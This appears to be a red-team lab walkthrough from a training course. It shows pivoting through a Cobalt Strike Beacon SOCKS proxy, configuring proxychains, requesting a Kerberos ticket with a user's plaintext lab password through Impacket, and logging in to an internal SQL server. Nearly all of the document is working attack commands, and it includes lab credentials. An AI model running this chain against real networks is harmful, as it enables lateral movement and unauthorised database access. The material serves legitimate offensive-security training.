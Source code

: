 # Kill Chain

1. \
   On the Attacker Desktop, run Terminal as a local admin.
2.  Add the following static DNS entry:

    ```batch
    Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.20 lon-db-1'
    ```
3. Open Cobalt Strike and connect to the team server.
4. Use Beacon to start a SOCKS 5 proxy on port 1080.
   1. socks 1080 socks5

## proxychains <a href="#proxychains" id="proxychains"></a>

1. From Terminal, launch Ubuntu.
2.  Run sudo nano /etc/proxychains.conf.

    > The password is Passw0rd!.
3. Comment out _proxy\_dns_ on _line 38_.
4. Replace the proxy entry on line 64 with socks5 10.0.0.5 1080.
5. Save the file (Ctrl+O, Ctrl+X)
6.  Use rsteel's plaintext password to request a TGT.

    ```shell-nocolor
    proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1
    ```
7. Set the KRB5CCNAME environment variable.
   1. export KRB5CCNAME=rsteel.ccache
8.  Use the TGT to authenticate to the _lon-db-1_ SQL instance.

    ```shell-nocolor
    proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
    ```
9. Execute some SQL commands.
   1. select @@servername;
   2. exit
